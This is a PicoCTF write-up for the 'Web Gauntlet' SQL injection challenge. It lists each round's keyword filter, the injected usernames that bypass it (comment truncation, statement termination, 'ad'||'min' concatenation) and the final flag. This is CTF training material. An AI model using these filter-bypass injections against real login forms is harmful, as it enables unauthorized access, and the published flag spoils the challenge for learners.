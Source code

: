 # Web Gauntlet
* Source: PicoCTF
* Link: [PicoCTF.org](https://picoctf.org/)
* Challenge: Web Gauntlet
* Category: Web Exploitation
* Points: 200
* Date: 08-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Problem:
![](./attachments/Pasted%20image%2020220407232135.png)

---
## Hints:
1. You are not allowed to login with valid credentials.
2. Write down the injections you use in case you lose your progress.
3. For some filters it may be hard to see the characters, always (always) look at the raw hex in the response.
4. sqlite
5. If your cookie keeps getting reset, try using a private browser window.

---
## Solution:
This is an QSL Injection challenge, we need to get past the filers.

We get two inks
The first is to a login page, the second is telling us the first filter is 'or', that means that the classic SQL Injection `' or 1=1--` won't work.

![](./attachments/Pasted%20image%2020220408002633.png)

### Round 1:

Filter: `or`

Username: `admin'--`

Password: `1`

### Round 2:

Filter: `or and like = --`

Username: `admin';`

Password: `1`

### Round 3:

Filter: `or and = like > < --`

Username: `admin';`

Password: `1`

### Round 4:

Filter: `or and = like > < -- admin`

Username: `ad'||'min';`

Password: `1`

### Round 5:

Filter: `or and = like > < -- union admin`

Username: `ad'||'min';`

Password: `1`

![](./attachments/Pasted%20image%2020220408002116.png)

And the .php file.

![](./attachments/Pasted%20image%2020220408001959.png)

We can see all the filers throughout the challenge, and at the bottom is the flag!

**Flag:** `picoCTF{y0u_m4d3_1t_96486d415c04a1abbbcf3a2ebe1f4d02}`

---
**Tags:** [[PicoCTF]] [[SQL Injection]]